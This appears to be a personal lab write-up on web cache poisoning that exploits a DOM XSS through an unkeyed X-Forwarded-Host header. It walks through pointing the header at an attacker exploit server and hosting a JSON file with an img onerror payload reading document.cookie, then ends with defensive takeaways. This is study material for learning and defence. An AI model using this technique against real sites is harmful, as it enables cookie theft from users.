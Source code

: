 # Note(Datetime, Name) :  2025-05-10  Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria

### Metodelogy
 1. Investigate the system to retrieve a list of features
 2. Discribe the feature and explain how it works
 3. List possible vulnerabilities and group by feature
 4. Proof of concept for possible vulnerabilities
 5. What is the impact of the vulnerabilities after the proof of concept ? 


# ==========================================================================================================

>

## feature:      
1. GET / -> home page has a geolocation feature
### steps taken:
1. Send a GET / with the following  payload -> noting happend
    ``` 
    X-Host: example.com

    ```
2. GET / with payload ->  reflected, some data in js used by geolocation 
    ``` 
    X-Forwarded-Host: example.com

    ```
3. GET / with payload  ` X-Forwarded-Host: attackerdoamin `  ->   block by cors   Access to fetch at 'https://<attackerdomain>/resources/json/geolocate.json' from origin 'https:// <targetdomain>' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
    - file /resources/json/geolocate.json  on attackerdomain
    ```
    {
         "country": "<img src='1' onerror='alert(document.cookie)' />"
    }

    ```


4. change response to allow origin in attackerdomain  and  try step 3 again -> alert is shown






## vulnerabilities : 
1. cache poisoning leads to DOM vurneralibily
## Proof of concept:
1. create a file on exploit server with the path /resources/josn/geolocate.json 
    - Header 
    ``` 
    HTTP/1.1 200 OK
    Content-Type: application/json; charset=utf-8
    Access-Control-Allow-Origin: *

    ```
    - Body
    ```
    {
        "country": "<img src=1 onerror=alert(document.cookie) />"
    }

    ```
2. add Header  `X-Forwarded-Host: <exploit server> `  and send it to GET / , try sending again  until page is cacheable

3. access GET / and alert is shown 


## impact
1. attacker can change the url for geolocate.json and inject malicious javascript script, which can  lead to  cookie  theft


## takeaways
1. Do not trust http  header without sanitazion 
2. don't use innerHTML to display untrusted content




